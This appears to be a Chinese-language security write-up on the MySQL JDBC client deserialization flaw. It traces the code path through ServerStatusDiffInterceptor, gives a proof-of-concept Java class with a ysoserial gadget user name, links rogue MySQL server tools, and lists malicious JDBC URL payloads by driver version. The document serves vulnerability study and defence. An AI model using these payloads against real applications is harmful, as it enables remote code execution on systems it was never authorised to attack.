






# 0x01 JDBC Deserial

JDBC（Java DataBase Connectivity）是SUN公司发布的一个java程序与数据库之间通信的接口（规范），各大数据库厂商去实现JDBC规范，并将实现类打包成jar包



进行数据库连接时指定了数据库的URL及连接配置

`Connection con = DriverManager.getConnection("jdbc:mysql://localhost:3306/test","root", "root");`

若JDBC连接的URL被攻击者控制，就可以让其指向恶意的MySQL服务器

JDBC连接MySQL服务端时，会有几个内置的SQL查询语句会执行，查询的结果集会在MySQL客户端被处理时会调用`ObjectInputStream#readObject`进行反序列化。

攻击者可以搭建恶意MySQL服务器，返回精心构造的查询结果集，进行客户端反序列化攻击。

可被利用的两条查询语句：

- SHOW SESSION STATUS
- SHOW COLLATION

恶意MySQL服务器搭建：

* https://github.com/fnmsd/MySQL_Fake_Server 📌
* https://github.com/rmb122/rogue_mysql_server

```xml
<dependency>
    <groupId>mysql</groupId>
    <artifactId>mysql-connector-java</artifactId>
    <version>8.0.13</version>
</dependency>
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.1</version>
</dependency>
```

```java
import java.sql.*;


public class Test {
    public static void main(String[] args) throws Exception {
        Class.forName("com.mysql.jdbc.Driver");
        String jdbc_url = "jdbc:mysql://127.0.0.1:3306/test?" +
            "autoDeserialize=true" +
       "&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections7_calc";
        Connection con = DriverManager.getConnection(jdbc_url, "yso_CommonsCollections7_calc", "root");
    }
}
```

`DriverManager#getConnection`

👇

`connectOneTryOnly=>this.session.setQueryInterceptors(this.queryInterceptors);`

设置对应的查询拦截器（即我们指定的`ServerStatusDiffInterceptor`）

执行查询语句会调用拦截器的`preProcess`和`postProcess`

判断拦截器是否为空，非空则调用`invokeQueryInterceptorsPre`



`invokeQueryInterceptorsPre`调用了拦截器的`preProcess`



看到执行了`SHOW SESSION STATUS`，并将结果（`com.mysql.cj.jdbc.result.ResultSetImpl`）传入`ResultSetUtil#resultSetToMap`进行反序列化处理



```java
public static void resultSetToMap(Map mappedValues, ResultSet rs) throws SQLException {
    while (rs.next()) {
        mappedValues.put(rs.getObject(1), rs.getObject(2));
    }
}
// getObject(2)
if (field.isBinary() || field.isBlob()) {
    byte[] data = getBytes(columnIndex);
}
```

`getObject`判断MySQL类型为BLOB后，从MySQL服务端获取对应的字节码数据

从MySQL服务端获取到字节码数据后，判断`autoDeserialize`是否为true（连接URL中设置了`autoDeserialize=true`）、字节码数据是否为序列化对象（前两个字节为`-84`和`-19`标识序列化对象）等，最后调用`readObject`触发反序列化漏洞





# 0x02 Payload Collections

## `ServerStatusDiffInterceptor`触发

### 8.x<=8.0.20

> ```
> jdbc:mysql://x.x.x.x:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor
> ```

### 6.x

`queryInterceptors`改名`statementInterceptors`

> ```
> jdbc:mysql://x.x.x.x:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor
> ```

### >=5.1.11

包名不含`cj`

> ```
> jdbc:mysql://x.x.x.x:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor
> ```

### 5.x<=5.1.10

同上，需要连接后执行查询

## `detectCustomCollations`触发

### 5.1.29~5.1.40

> ```
> jdbc:mysql://x.x.x.x:3306/test?detectCustomCollations=true&autoDeserialize=true
> ```

### 5.1.19~5.1.28

> ```
> jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true
> ```

# 0x03 Reference

* [MySQL JDBC反序列化漏洞 [ Mi1k7ea \]](https://www.mi1k7ea.com/2021/04/23/MySQL-JDBC反序列化漏洞/#漏洞分析)
* [MySQL JDBC 客户端反序列化漏洞分析-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/203086)
